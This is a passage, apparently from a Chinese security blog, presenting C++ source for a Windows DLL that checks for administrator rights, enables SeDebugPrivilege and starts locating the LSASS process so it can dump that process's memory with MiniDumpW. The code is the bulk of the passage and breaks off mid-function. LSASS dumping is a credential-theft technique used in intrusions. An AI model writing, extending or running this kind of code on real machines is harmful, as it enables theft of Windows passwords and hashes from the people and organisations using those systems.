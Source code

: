 ![](https://images.payloads.online/2022-08-11-22-07-05.png)

为了避免类似的风险情况，我增加了权限判断、重复转储判断：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#define _CRT_SECURE_NO_WARNINGS

typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

BOOL CheckPrivilege() {
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;
   
    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS,0, 0, 0, 0,
        &AdministratorsGroup);
    if (state)
    {
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

BOOL EnableDebugPrivilege()
{
    
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

DWORD GetLsassPID() {
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
```